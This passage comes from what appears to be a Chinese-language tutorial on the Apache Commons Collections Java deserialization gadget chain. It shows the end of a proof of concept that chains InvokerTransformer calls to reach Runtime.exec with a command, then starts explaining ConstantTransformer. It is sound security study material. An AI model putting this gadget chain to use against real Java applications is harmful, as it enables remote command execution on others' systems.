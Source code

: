 ```java
                        "invoke",new Class[]{Object.class, Object[].class},new Object[]{null, new Object[0]}
                ),
                new InvokerTransformer(
                        "exec", new Class[]{String.class}, new Object[]{cmd}
                )
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        Object transformer = chainedTransformer.transform(null);
    }
}

```

![image-20220903222648532](images/image-20220903222648532.png)

先对上述的`poc`做一个分析：

**ConstantTransformer**

```java
new ConstantTransformer(Runtime.class)
```

传入的`java.lang.Runtime`类原封不动的返回并作为`input`参数传入到下一个`InvokerTransformer`的`transform(Object input)`方法中
![image-20220904212600633](images/image-20220904212600633.png)
